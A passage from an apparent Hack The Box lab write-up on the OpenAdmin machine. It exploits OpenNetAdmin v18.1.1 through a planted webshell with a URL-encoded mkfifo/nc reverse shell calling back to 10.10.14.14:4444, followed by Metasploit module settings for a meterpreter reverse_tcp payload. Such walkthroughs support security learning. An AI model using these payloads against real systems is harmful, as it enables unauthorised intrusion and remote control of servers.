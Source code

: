		Ncat: Version 7.92 ( https://nmap.org/ncat )
		Ncat: Listening on :::4444
		Ncat: Listening on 0.0.0.0:4444
		Ncat: Connection from 10.10.10.171.
		Ncat: Connection from 10.10.10.171:53832.
		```
	5. Invoke reverse shell
		```
		┌──(root💀kali)-[~/htb/OpenAdmin]
		└─# curl "http://10.10.10.171/ona/webshell.php?c=rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7C%2Fbin%2Fsh%20-i%202%3E%261%7Cnc%2010.10.14.14%2044
		44%20%3E%2Ftmp%2Ff"
		```
5.  Demo - `OpenNetAdmin v18.1.1 - Remote Code Execution`
	![](WO4vY3wm5C.gif)


## TCP/80 (HTTP) - OpenNetAdmin v18.1.1 Remote Code Execution (Metasploit)
1. Launch `msfconsole`
2. Use `unix/webapp/opennetadmin_ping_cmd_injection`
3. Set `OPTIONS`
	```
	msf6 exploit(unix/webapp/opennetadmin_ping_cmd_injection) > set RHOSTS 10.10.10.171
	RHOSTS => 10.10.10.171
	msf6 exploit(unix/webapp/opennetadmin_ping_cmd_injection) > set LHOST tun0
	LHOST => 10.10.14.14
	msf6 exploit(unix/webapp/opennetadmin_ping_cmd_injection) > set payload 8
	payload => linux/x64/meterpreter/reverse_tcp
	```
4. View `OPTIONS`
	```
	msf6 exploit(unix/webapp/opennetadmin_ping_cmd_injection) > show options
	
	Module options (exploit/unix/webapp/opennetadmin_ping_cmd_injection):
	
	   Name       Current Setting  Required  Description
	   ----       ---------------  --------  -----------
	   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
	   RHOSTS     10.10.10.171     yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
	   RPORT      80               yes       The target port (TCP)
	   SSL        false            no        Negotiate SSL/TLS for outgoing connections
	   SSLCert                     no        Path to a custom SSL certificate (default is randomly generated)
	   TARGETURI  /ona/login.php   yes       Base path
	   URIPATH                     no        The URI to use for this exploit (default is random)
	   VHOST                       no        HTTP server virtual host
	
	
	Payload options (linux/x64/meterpreter/reverse_tcp):
	
	   Name   Current Setting  Required  Description
	   ----   ---------------  --------  -----------
	   LHOST  10.10.14.14      yes       The listen address (an interface may be specified)
	   LPORT  4444             yes       The listen port
	